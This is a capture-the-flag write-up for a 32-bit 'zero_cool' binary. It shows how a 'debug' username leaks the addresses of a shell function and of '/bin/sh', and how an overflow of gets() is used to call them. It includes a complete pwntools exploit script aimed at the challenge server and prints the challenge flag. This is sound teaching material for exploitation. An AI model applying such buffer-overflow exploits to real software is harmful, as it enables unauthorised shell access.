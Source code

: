 # Buffer-Overflow with a twist

**This challenge required you to find a correct username that would leak two addresses on the stack, performing a buffer-overflow and calling the leaked addresses.**

### Analyzing the binary

after running `readelf -s zero_cool | grep FUNC` we see two interesting functions
`username` and `password` 

Opening the binary in ghidra and looking at the disassembly from the function `username` we quickly get to a section that looks peculiar

![Username Disassembly](https://github.com/ZeroCooL-555/CTF/blob/master/10an/pwn/zerocool/username.png)
![Username Decompiled](https://github.com/ZeroCooL-555/CTF/blob/master/10an/pwn/zerocool/username_decompiled.png)

As we can see if we pass in the username `debug` we get where in memory the address of `shell` is and where the address of `/bin/sh` is.

Now the program wants us to pass a password. Disassembling the function `password` we very quickly see that our input is passed to a
very dangerous function called `gets()` 


![Password Disassembly](https://github.com/ZeroCooL-555/CTF/blob/master/10an/pwn/zerocool/password.png)


explanation from the man page 

**Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely danger‐ous to use.**

Let's abuse `gets()`. After some trial and error the sweet spot is found to be `offset 27`. With all this information we are ready to move on to the attack phase.


### The Attack

Starting out we send the program a username in this case `debug` after that we grab the two leaked addresses. Now we are prompted for a password, we pass in our 27 A's and then call the first leaked address.
After having called the first address we add `4 bytes` worth of padding to be able to set the parameter for the first function. If done correctly we should have a call to `shell` with the parameter `/bin/sh`.

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'i386'

elf = ELF('./zero_cool')
r = remote('0xa.is', 31338)

r.recvuntil('Username: ')
r.sendline('debug')

offset = 27

shell_func = r.recvline().decode('utf-8').split(': ')[1]
shell_func_param = r.recvline().decode('utf-8').split(': ')[1]

shell_func_addr = int(shell_func, 16)
shell_func_param_addr = int(shell_func_param, 16)

payload = [
        b"A"*offset,
        p32(shell_func_addr),
        b"A"*4,
        p32(shell_func_param_addr)
]

payload = b"".join(payload)
r.sendline(payload)
r.interactive()
```

### Flag: 10an{run_4nt1_v1ru5_g1v3_m3_5y5t3m5_d15pl4y_n0w}


